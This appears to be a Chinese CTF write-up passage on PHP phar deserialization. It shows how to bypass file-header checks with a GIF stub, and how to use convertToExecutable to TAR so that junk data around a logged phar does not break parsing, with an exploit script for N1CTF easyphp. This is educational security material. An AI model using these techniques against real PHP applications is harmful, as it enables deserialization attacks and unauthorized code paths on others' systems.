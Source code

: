 ### 简单的绕过

我们可以利用stub部分前缀任意的特性：

```php
<?php
$phar -> setStub('GIF89a'.'<?php __HALT_COMPILER();?>');   //设置 stub，增加 gif 文件头
```

这可以绕过一部分对文件头的检测。

---

### 绕过前后脏数据

由于签名部分的存在，php会校验文件哈希值，并检查末尾是否为GBMB，如下是解析部分的源码：

![](src.png)

[https://github.dev/php/php-src](https://github.dev/php/php-src)

可见，如果末尾不是GBMB会直接导致解析失败。

在CTF中利用该漏洞需要我们完成写入/上传phar，并调用文件包含函数。我们知道一句话木马由于有`<?php ?>`这样的头尾标识存在，可以无视前后脏数据；然而对于phar，这样的骚操作被签名部分阻止了。有办法绕过吗？请参阅：[https://www.php.net/manual/zh/phar.converttoexecutable.php](https://www.php.net/manual/zh/phar.converttoexecutable.php)

利用convertToExecutable函数，我们可以把phar文件转为其他格式的phar文件，例如.tar和.zip格式。

我们以N1CTF easyphp为例子，这题允许我们写入日志，并且可以利用phar反序列化得到flag，难点在于日志文件前后有额外脏数据，会使得我们的phar文件无法被解析。

然而如果以tar格式储存phar，末尾的脏数据并不会影响解析（这是tar的格式决定的），而开头的脏数据可以在制造phar文件时就提前构造好（这样这部分数据也会被纳入签名计算），写入日志时不必写入这部分，而是令其与脏数据拼接形成合法的phar。exploit如下：

```php
<?php
  CLASS FLAG {
    public function __destruct(){
            echo "FLAG: " . $this->_flag;
        } 
    }
    $sb = $_GET['sb'];
    $ts = $_GET['ts'];
    $phar = new Phar($sb.".phar"); //后缀名必须为phar
    **$phar = $phar->convertToExecutable(Phar::TAR); //会生成*.phar.tar**
    
    $phar->startBuffering();
    $phar->addFromString("Time: ".$ts." IP: [], REQUEST: [log_type=".$sb."], CONTENT: [", ""); //添加要压缩的文件
    //tar文件开头是第一个添加文件的的文件名，注意添加的文件顺序不要错了
    $phar->setStub("<?php __HALT_COMPILER(); ?>"); //设置stub
    $o = new FLAG();
  $o -> data = 'g0dsp3ed_1s_g0D';
    $phar->setMetadata($o); //将自定义的meta-data存入manifest
    //签名自动计算
    $phar->stopBuffering();
?>
```

